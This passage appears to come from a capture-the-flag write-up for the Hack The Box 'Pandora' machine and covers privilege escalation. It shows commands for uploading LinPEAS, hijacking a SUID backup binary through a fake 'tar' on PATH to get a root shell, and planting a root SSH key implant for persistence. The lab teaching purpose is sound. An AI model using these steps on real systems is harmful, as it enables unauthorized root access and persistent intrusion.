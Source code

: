First, we  connect with `pwncat-cs matt@pandora.htb --identity /home/kali/.ssh/id_rsa` for a stable shell. I use `pwncat` and upload LinPEAS with `upload linpeas.sh` then run it with `bash linpeas.sh`.

In the LinPEAS output we see:

```
Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
-rw-r----- 1 root matt 33 Feb 22 02:52 /home/matt/user.txt
```

Running `ls -la /usr/bin/pandora_backup` shows that this is a SUID binary. Running the actual `/usr/bin/pandora_backup` script appears to create a `tar` archive of the `/var/www/pandora/pandora_console/` directory.

We can run `download /usr/bin/pandora_backup` to download it to our local machine with `pwncat` since the target machine does not have the `strings` command.

Running `strings pandora_backup` shows `tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*` in the output. So, it looks like it is just running the `tar` binary from a relative path. We can create a new file called `tar` in our home directory that simply runs `/bin/bash` with `mkdir ~/bin; echo "/bin/bash" > ~/bin/tar`. Set the new "tar" file to executable with `chmod +x ~/bin/tar`. Now, we can add that to our path ahead of any other directory with `export PATH=/home/matt/bin:$PATH`. Now, we can run the SUID binary again: `/usr/bin/pandora_backup`.

Finally, we run `cat /root/root.txt` to get the `root.txt` flag.

We can get persistance as root with `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in `pwncat`.
